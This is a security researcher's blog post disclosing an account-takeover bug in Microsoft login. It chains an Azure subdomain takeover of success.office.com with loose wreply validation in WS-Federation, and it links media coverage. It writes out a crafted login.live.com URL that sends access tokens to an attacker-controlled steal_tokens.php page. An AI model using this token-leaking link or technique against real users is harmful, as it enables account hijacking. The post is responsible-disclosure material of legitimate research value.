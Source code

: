 ```yaml
---
layout: post
title: Leaking access tokens from Microsoft apps chaining two vulnerabilities
---
```


---




### First Issue:

During the initial recon I retrieved the list of all possible subdomains of office.com pointing to many Azure instances. One of them was success.office.com which was not getting resolved to any IP address, but had a CNAME pointing to an Azure web app instance `successcenter-msprod`. 
Chances are that you can takeover an Azure instance if the domain is not getting resolved to it. So I tried to create a web app with the name `successcenter-msprod` in my Azure portal
and it was accepted as a valid name. In other words, the previous instance with that name had been removed and is now free.
Which basically means, whatever we host on `successcenter-msprod`; `success.office.com` would point to it as the CNAME record specifies. 

### Second Issue:

Microsoft uses WS Federation for it's implementation of a centralized login system for most of the applications including Outlook, Sway, Microsoft Store etc. WS Fed is similar to Oauth. 
`wreply` in WS Fed is the counterpart of `redirect_url` in Oauth. If you read about Nir Goldshlager's <a href="http://nirgoldshlager.blogspot.com/">Facebook Oauth bug series</a>, you will understand
the dangers of not using an exact URL match (or not properly validating) for wreply or redirect_url wherever possible. Here in this case, Microsoft 
was allowing any subdomains of office.com (*.office.com) to be a valid wreply URI. 


Since one of their subdomain was in my control, I could use the domain as a valid `wreply` url and was able to leak the access tokens:

`https://login.live.com/login.srf?wa=wsignin1.0&rpsnv=13&ct=1529775349
&rver=6.7.6643.0&wp=MBI_SSL&wreply=https://success.office.com/steal_tokens.php
&lc=1033&id=292666&lw=1&fl=easi2&pcexp=true&uictx=me`

Basically, if any user who has already been authenticated (or going to authenticate), "clicked" on a crafted link with the above changes, the tokens would get leaked and this token can be exchanged for a session token and subsequently an account takeover would result.


<img src="https://raw.githubusercontent.com/sahadnk72/sahadnk72.github.io/master/files/outlook.jpg" />

<a href="https://www.safetydetective.com/blog/microsoft-outlook/"></a>

### Media Coverage:

This finding has gained some media attention. A few of them are listed below:

#### NDTV: <a href="https://www.ndtv.com/kerala-news/kerala-based-security-engineer-spots-bug-in-microsoft-office-365-outlook-1961352" target="_blank">Link</a>
#### TechCrunch: <a href="https://techcrunch.com/2018/12/11/microsoft-login-bug-hijack-office-accounts/" target="_blank">Link</a>
#### MensXP: <a href="https://www.mensxp.com/technology/hacks/48785-a-kerala-based-engineer-uncovered-a-bug-that-could-expose-more-than-40-crore-microsoft-accounts.html" target="_blank">Link</a>
#### Mashable: <a href="https://mashable.com/article/microsoft-account-takeover-vulnerability" target="_blank">Link</a>
#### IndiaTimes: <a href="https://www.indiatimes.com/technology/news/this-young-hacker-from-kerala-found-a-microsoft-bug-saving-the-account-data-of-40-crore-users-358466.html" target="_blank">Link</a>


